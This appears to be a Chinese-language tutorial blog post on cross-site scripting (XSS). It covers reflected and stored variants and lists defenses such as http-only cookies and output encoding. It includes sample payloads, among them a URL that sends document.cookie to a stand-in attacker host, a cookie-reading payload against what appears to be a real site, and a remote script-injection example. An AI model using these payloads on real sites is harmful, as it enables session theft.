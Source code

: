 ```yaml
---
title: 跨站脚本攻击 (XSS)
categories: Web 安全
tags: [web 安全]
date: 2021-01-14 15:42:00
---
```


# 跨站脚本攻击 (XSS)

跨站脚本攻击 XSS (Cross Site Scripts)

说明：攻击者盗取用户的身份信息（如Cookie）、导航到恶意网址、携带木马病毒等 原理：攻击者在网页中嵌入客户端脚本(如JavaScript), 用户浏览网页就会触发恶意脚本执行


### 1. 反射型XSS步骤

1. 用户正常登录Web应用程序，登录成功会得到一个会话信息的 `cookie`
2. 攻击者将含有攻击代码的URL发送给被攻击人，例：`http://fovweb.com/xss/message.php?send=%3Cscript%3Edocument.write(‘%3Cimg%20height=0%20width=0%20src=%22 http://hacker.fovweb.com/xss/cookie_save.php%3Fcookie=%3D’%20+%20encodeURL(document.cookie)%20+%20’%22/%3E’)%3C/script%3E`
3. 用户打开攻击者发送过来的 URL, Web 应用程序执行用户发出的请求，并将请求参数显示在页面中；
4. 请求参数中包含的 JavaScript 代码会被执行，用户的 cookie 信息将会被发送到攻击者；

**note:**
* 链接中的请求参数会被显示在页面中，如搜索关键字、表单输入框等
* 链接必须被用户点击才会触发
* 危害范围小，受害者人数较少
* 例子：`http://health.sohu.com/so/index.shtml?t=news&wd=%E6%84%9F%E5%86%92%27%22onmouseover=%22alert(document.cookie)%22`


### 2. 持久型 XSS 步骤

1. 攻击者向存在漏洞的网站注入恶意代码，如`http://a.com/a.jsp?name=xss<script src=http://b.com/b.js></script>`
2. 用户访问该网站会下载 js 文件，并执行里面的代码
3. js 可获取用户所有的所有信息（包括Cookie、Session等）并发送给攻击者
  
**note：**
* 攻击者提交的数据会被显示出来，并被所有人看到，如社区评论等
* 访问存在漏洞的网站就会触发
* 危害范围大，受害者人数较多


### 3. 防御措施
* 在服务器端设置 Cookie 为 `http-only`，浏览器会禁止 js 访问该 `Cookie`
* 输入检查，对用户提交的数据进行校验，对特殊字符进行编码和过滤（主要在后端）
* 输出检查，对渲染到 html 中的内容进行 htmlEncode（主要在前端）
* 针对不同的上下文调用不同的转义规则，如 HTML 属性、HTML 文字内容、HTML 注释、跳转链接、内联 JavaScript 字符串、内联 CSS 样式表等，所需要的转义规则不一致
* 利用模板引擎，避免内联事件，避免拼接 HTML
